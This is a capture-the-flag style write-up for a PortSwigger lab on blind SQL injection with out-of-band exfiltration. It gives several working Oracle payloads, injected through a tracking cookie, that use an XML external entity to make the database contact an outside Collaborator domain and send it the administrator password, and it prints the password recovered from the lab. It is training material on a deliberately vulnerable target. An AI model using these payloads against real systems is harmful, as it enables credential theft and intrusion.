 
# Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Learning path: If you're following our learning path, please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.


---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


The payload for out-of-band interaction is:

```
Cookie: TrackingId=FFyToxqSs49lpxuC'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

We will try this:

```
SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') THEN 'a'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual) ELSE NULL END FROM dual
```

```
FFyToxqSs49lpxuC'+union+SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))!='a')+THEN+'a'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://BURP-COLLABORATOR/">+%25remote%3b]>'),'/l')+FROM+dual)+ELSE+NULL+END+FROM+dual--;
```

First I test it when the first character is different to “a” and see there is an interaction:



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/1.png)



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/2.png)

We send this to the Intruder and set two positions, one for the character for the comparison and the other the subdomain. We set the type to “Battering Ram”:



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/3.png)

We find there was a query for the letter “e”:



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/4.png)

Knowing this we could go character by character and get the password “e6jomps7kptnx04vcvtz”.

We can also use the query in the cheat-sheet:

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```


```
mnsyvP6Ci68a0edP'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://'||(SELECT+password+FROM+users+where+username='administrator')||'.0mntiwqdq98x96mi2d97hujkwb22quej.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/5.png)